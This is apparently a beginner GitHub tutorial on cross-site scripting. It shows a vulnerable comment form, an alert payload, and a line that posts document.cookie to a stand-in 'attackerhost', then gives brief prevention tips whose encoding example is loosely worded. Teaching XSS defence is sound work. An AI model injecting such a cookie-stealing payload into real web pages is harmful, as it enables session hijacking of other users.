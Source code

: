 # XSS-ATTACK
this section is talking about xss attack and its prevention

**If you have not been familiar with HTML / Javascript, you can pass this section temporily**

## Table of Contents
- [XSS](#XSS)
- [XSS-Examples](#XSS-Examples)
- [XSS-Prevention](#XSS-Prevention)
- [References](#References)

## XSS
XSS ( Cross-site scripting ) enables attackers to **inject client-side script into web pages** viewed by other users

## XSS-Examples

- Precondition
  1. You make a forum website and let users to write down their comments
  ```html
  <form method='post' action="comments">
    <textarea name='comment' id='comment'></textarea>
    <input type='submit' value='Submit' />  
  </form>
  ```

  2. The website stores the origin comment without any processing
  3. When the other users view a comment, they may get
  ```html
  <div>
    [ the comments ]
  </div>
  ```
  **where the comments are the origin text without any processing**


  - Case 1
    1. If an attacker write down comments like this
    ```javascript
    <script>alert('You are attacked')</script>
    ```
    2. Any user views this comment would get an an alert window with text `You are attacked`


  - Case 2
    1. If an attacker write down comments like this
    ```javascript
    $.post( "http://attackerhost/cookies", { cookie: document.cookie } );
    ```
    2. The other user's cookie would be stolen when they are viewing this comment

## XSS-Prevention
We can see that **XSS is very dangerous** because attackers can execute whatever they want !

Backend / Frontend developers should make sure no script from users can be executed.

- Content Filtering : encode / escape the sensitive words ( e.g. `<`, `>` )

  - before
  ```html
  <b>very</b> large
  ```

  - after
  ```
  %3Cb%3Every%3C/b%3E%20large
  ```

- Disabling Scripts : disable javascript in the browser, nothing can be executed

## References
- https://en.wikipedia.org/wiki/Cross-site_scripting
- https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md
- http://www.w3schools.com/jsref/jsref_escape.asp

